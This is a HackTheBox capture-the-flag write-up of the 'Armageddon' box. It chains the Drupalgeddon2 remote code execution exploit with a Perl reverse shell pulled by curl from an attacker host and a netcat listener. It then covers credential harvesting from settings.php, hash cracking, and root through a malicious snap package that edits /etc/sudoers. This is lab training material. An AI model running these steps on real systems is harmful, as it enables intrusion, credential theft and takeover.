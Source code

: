 https://github.com/Hackplayers/hackthebox-writeups/blob/master/machines/Armageddon/HTB_Armageddon-d0n601.pdf

By Ryan Kozak - 2021/06/10

1. Info Gathering 
2. Exploitation

Easy Level Box
Drupal Exploit
Box Name : Druppalgeddon2
Enum MySQL
Credential Stuffing > User Priv.
Priv Esc through Snap


1. Info Gathering
1.1  Nmap
Recon :
```nmap
sudo ./nmapAutomator.sh 10.10.10.233 All
```

Result: Open Ports  P22 and P80

1.2 View P80
1.2.1 look at CHANGELOG.txt to view version changes

```c
10.10.10.233:80/CHANGELOG.TXT

Drupal 7.56
```

1.3 Searchsploit drupal
1.3.1 Version 7.58 and below : exploit Drupalegeddon2.
Drupalgeddon2 a RCE

Path: php/webapps/44449.rb

2.0 Exploit
2.1 set 10.10.10.233 hostname to armageddon.htb in /etc/hosts

```r
/etc/hosts
...
10.10.10.233 armageddon.htb
```
2.1 download 44449.rb

https://www.exploit-db.com/exploits/44449

2.2 Run Ruby script(44449.rb)
2.2.1 requires Ruby dependencies. 
```ruby
sudo gem install highline
```

```r
$ruby 44449.rb http://armageddon.htb 

>> armageddon.htb >> whoami
>> apache
>> (cont. 2.2.4 below VVV)
```
Perl shell works better.

```C#
sudo service apache2 start
```
2.2.1.1 Start Apache2 Server from the offensive Computer


2.2.2 change perl reverse Shell IP

https://github.com/pentestmonkey/perl-reverse-shell/blob/master/perl-reverse-shell.pl

change script:  IP and port to "attacking IP" : 443

```C
sudo cp /usr/share/webshells/perl-reverse-shell.pl /var/www/html/perl-reverse-shell.pl

sudo vim perl-reverse-shell.pl

# Where to send the reverse shell.  Change these.
my $ip = '10.10.14.3'; #attacking IP
my $port = 443;
```

2.2.3 Start Netcat Listener on 10.10.14.3: 443

```R
sudo nc -lvnp 443
```

2.2.4 Download perl reverse shell from victim 44449.rb reverse-shell

```c
>> armageddon.htb>> curl http://10.10.14.3/perl-reverse-shell.pl --output shell.pl
>>(downloads)
>> armageddon.htb>>perl shell.pl
```

2.2.5 Attacker catches Shell
```R
$sudo nc -lvnp 443
listening on [any] 443...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.233] 34110
USER
Linux armageddon.htb
```
Drupal app is compromised.

2.2.6 Examine settings.php file
to view DB credentials
[C:\programs\xampp\htdocs\drupal\sites\default\1settings.php]  
 [http://mysite.com/sites/default/settings.php]

```r
$database = array (
	'default'=> array (
		'default'=> array (
			'database' => 'drupal'
			'username' => 'drupaluser'
			'password' = > 'P@ssw0rd'
			'host' => 'localhost'
			'driver' => 'mysql'
			)
		)
);
```


2.2.7 Connect to MySQL with new Credentials

```R
$mysql -u username -pPASSWORD -h HOSTNAMEORIP DATABASENAME 
```
cmd 
```R
mysql -u username -p DATABASENAME
```

```r
apache 4.2
$ mysql -u drupaluser -p drupal
mysql -u drupaluser -p drupal
Enter password : P@ssw0rd

select * from users;

uid

brucetherealadmin hash*long1
```
dumps users table and password hashes


2.2.8 crack the hash

Johntheripper
rockyou.txt

```R
$nano armageddon.hash
brucetherealadmin hash*long1

$john -wordlist:rockyou.txt armageddon.hash
```

```c
cracked 
'brucetherealadmin:hash*long1' =>> 'brucetherealadmin:booboo'

```

2.2.9 ssh into drupal with new Credential.

```R
$ssh brucetherealadmin@armgageddon.htb
brucetherealadmin@armgageddon.htb password : booboo

[brucetherealadmin@armgageddon.htb ~]
$cat ~/user.txt
"user FLAG"
```

2.2.10 Root Flag

can execute sudo snap packages, without password.
```C
[brucetherealadmin@armgageddon.htb ~]
sudo /usr/bin/snap install *
```
exploit with malicious snap packages

2.2.11.1 install FPM
```c
$sudo gem install --no-document fpm
```

2.2.11.2 craft packet
https://gtfobins.github.io/gtfobins/snap/
"id" change to 


```R
$COMMAND="echo 'brucetherealadmin ALL=(ALL) NOPASSWD:/binbash'>> /etc/sudoers"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta

Created package {:path=>"xxxx_1.0_all.snap"}

$sudo mv xxxx_1.0_all.snap /var/www/html/oh.snap
```
1. craft package
2. add bruce to no sudoers
3. generate snap package with fpm
4. mv to on.snap in apache2 home directory


2.2.12Download package from victim SSH
```r
[brucetherealadmin@armgageddon.htb ~]
$ curl 10.10.14.3/oh.snap --output oh.snap

$sudo /usr/bin/snap install oh.snap --dangerous --devmode

$sudo /bin/bash

[root@armageddon brucetherealadmin]# cat /root/root.txt
ROOT FLAG

#ifconfig
#id
```

download oh.snap, install, root achieved. 


DONE.